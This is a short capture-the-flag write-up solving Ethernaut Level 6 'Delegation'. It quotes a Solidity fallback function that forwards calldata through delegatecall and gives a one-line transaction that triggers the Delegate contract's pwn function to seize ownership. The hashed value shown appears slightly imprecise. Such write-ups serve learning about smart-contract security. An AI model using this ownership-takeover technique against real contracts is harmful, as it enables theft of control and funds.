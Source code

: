 <div align="center">

<img src="../assets/levels/6-delegation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/6-delegation-requirements.webp" width="800px"/>

## The hack

Requires taking advantage of the delegate call being used in the Delegation contract

## Solution

This is the fallback function in the Delegation contract

```
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
```

`delegate` is the contract we need to take control of,
Hence here we do

```
contract.sendTransaction({data: web3.utils.keccak256("pwn")})
```

Thus calling the `Delegation` contract's fallback which delegates to the `Delegate` contract, calling its `pwn` function, making us the owner.

## Takeaway

Usage of delegate call(libs and proxies) and its importance to get right - parity hack explored the incorrect use of delegate call

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
